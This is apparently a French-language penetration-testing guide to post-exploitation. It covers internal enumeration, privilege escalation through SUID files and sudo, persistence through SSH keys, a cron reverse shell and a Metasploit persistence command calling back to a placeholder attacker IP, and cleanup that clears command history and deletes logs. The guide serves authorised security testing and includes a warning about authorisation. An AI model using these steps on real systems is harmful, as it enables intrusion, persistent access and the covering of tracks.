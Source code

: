 # 🏁 GUIDE MÉTHODOLOGIQUE - POST-EXPLOITATION

---

La phase de post-exploitation commence après avoir obtenu un accès initial à un système. Elle se concentre sur la consolidation de cet accès, l'élévation des privilèges, le mouvement latéral et, finalement, le nettoyage et le rapport.

## 🎯 ÉTAPE 1 : ÉNUMÉRATION INTERNE
Une fois à l'intérieur, la reconnaissance recommence.
- **Qui suis-je ?** (`whoami`, `id`)
- **Où suis-je ?** (`ip a`, `ifconfig`, `hostname`)
- **Quels sont mes privilèges ?** (`sudo -l`)
- **Quels services tournent sur la machine ?** (`netstat -tulpn`, `ss -tulpn`)
- **Quels autres utilisateurs existent ?** (`cat /etc/passwd`)
- **Quels sont les processus intéressants ?** (`ps aux`)

## 🎯 ÉTAPE 2 : ÉLÉVATION DE PRIVILÈGES
L'objectif est de passer d'un utilisateur standard à un utilisateur avec des droits plus élevés (comme `root` ou `SYSTEM`).
- **Rechercher des exploits de noyau (Kernel Exploits)**:
  ```bash
  # Vérifier la version du noyau
  uname -a
  # Rechercher des exploits correspondants sur Exploit-DB
  ```
- **Vérifier les permissions `sudo`**:
  ```bash
  sudo -l
  # Si vous pouvez exécuter une commande en tant que root, exploitez-la (voir GTFOBins).
  ```
- **Rechercher des fichiers avec des permissions SUID/SGID**:
  ```bash
  find / -perm -u=s -type f 2>/dev/null
  ```
- **Exploiter des services mal configurés** (ex: base de données avec mot de passe faible, serveur web local).

## 🎯 ÉTAPE 3 : MAINTIEN DE L'ACCÈS (PERSISTANCE)
> ⚠️ **Attention**: Ne mettre en place la persistance qu'avec une autorisation explicite.

- **Ajouter une clé SSH**: Copiez votre clé publique dans le fichier `~/.ssh/authorized_keys` de l'utilisateur compromis.
- **Créer un cron job**: Planifiez une tâche qui exécute un reverse shell à intervalle régulier.
- **Utiliser des modules de persistance Metasploit**:
  ```meterpreter
  run persistence -U -i 5 -p 4444 -r <VOTRE_IP>
  ```

## 🎯 ÉTAPE 4 : NETTOYAGE ET RAPPORT
C'est la phase finale et la plus professionnelle.

### 4.1 Nettoyage
- Supprimez tous les fichiers que vous avez uploadés (shells, scripts, etc.).
- Effacez l'historique des commandes (`history -c`).
- Supprimez les entrées de logs pertinentes si cela fait partie du périmètre de l'audit.

### 4.2 Documentation et Rapport
- **Résumé Exécutif**: Un résumé simple pour les décideurs, expliquant le risque business.
- **Rapport Technique Détaillé**: Expliquez chaque vulnérabilité, comment vous l'avez exploitée (preuve de concept), et son impact.
- **Recommandations de Correction**: Fournissez des solutions claires et réalisables pour chaque vulnérabilité.

---

## ✅ CHECKLIST FINALE
- [ ] Toutes les traces ont-elles été supprimées ?
- [ ] Le rapport est-il complet, clair et professionnel ?
- [ ] Les preuves de concept sont-elles bien documentées ?
- [ ] Le client a-t-il été informé des résultats de manière sécurisée ?

